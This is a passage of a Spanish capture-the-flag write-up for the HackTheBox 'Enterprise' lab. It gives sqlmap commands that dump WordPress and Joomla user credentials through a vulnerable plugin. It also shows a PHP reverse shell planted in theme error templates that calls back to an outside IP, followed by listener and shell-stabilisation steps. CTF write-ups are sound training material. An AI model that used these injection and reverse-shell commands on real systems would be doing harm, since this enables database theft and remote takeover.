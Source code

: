 ```
sqlmap -u 'http://enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1' -D joomladb -T edz2g_users -C username,password --dump
```
![[Pasted image 20250217162939.png]]
Wordpress db

```
sqlmap -u 'http://enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1' -D wordpress -T wp_users -C user_login,user_pass --dump
```
![[Pasted image 20250217163317.png]]Ver posts creados ocultos
```
sqlmap -u 'http://enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1' -D wordpress -T wp_posts -C post_content --dump
```
Entre los posts encontramos algunas contraseñas
![[Pasted image 20250217163936.png]]

### Auth
Usando las contraseñas y los usuarios conseguidos probamos e iniciamos sesión

## WordPress
Apperance > Editor > 404.php

Inyectamos una reverse shell
```
system("bash -c 'bash -i >& /dev/tcp/10.10.14.11/443 0>&1'");
```
![[Pasted image 20250218151701.png]]
Lanzamos un 404 error
![[Pasted image 20250218151726.png]]
Nos ponemos en escucha
```
nc -lnvp 443
```
[-] ==pwned!==

```
script /dev/null -c bash
```
ctrl+z
```
stty raw -echo; fg
	reset xterm
```
```
export TERM=xterm
```
## Joomla
Extensions > Templates > Templates > (Template) > error.php
Inyectamos una reverse shell
```
system("bash -c 'bash -i >& /dev/tcp/10.10.14.11/443 0>&1'");
```
![[Pasted image 20250218155852.png]]
Nos ponemos en escucha
```
nc -lnvp 443
```
[-] ==pwned!==
```
script /dev/null -c bash
```